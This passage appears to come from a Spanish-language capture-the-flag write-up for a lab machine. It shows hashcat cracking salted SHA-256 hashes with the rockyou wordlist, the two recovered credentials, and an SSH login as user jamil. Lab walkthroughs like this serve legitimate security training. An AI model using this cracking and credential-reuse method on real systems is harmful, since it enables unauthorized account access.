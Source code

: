 ```
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS:copperhouse56
694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6:8Sb)tM1vs1SS:fakebake000
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1410 (sha256($pass.$salt))
Hash.Target......: hash
Time.Started.....: Sun Sep 28 06:37:05 2025 (4 secs)
Time.Estimated...: Sun Sep 28 06:37:09 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4259.6 kH/s (0.20ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 2/6 (33.33%) Digests (total), 2/6 (33.33%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 26%

Started: Sun Sep 28 06:36:41 2025
Stopped: Sun Sep 28 06:37:11 2025
```

Veremos que ha funcionado y nos saca estas credenciales:

```
User: jamil Pass: copperhouse56
User: admin Pass: fakebake000
```

Vamos a probar a entrar por `SSH` con el usuario `jamil`.

```shell
ssh jamil@<IP>
```

Metemos como contraseña `copperhouse56`...

```
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-152-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Sep 28 10:41:31 AM UTC 2025

  System load:  0.01              Processes:             236
  Usage of /:   65.7% of 8.12GB   Users logged in:       0
  Memory usage: 26%               IPv4 address for eth0: 10.10.11.84
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.
```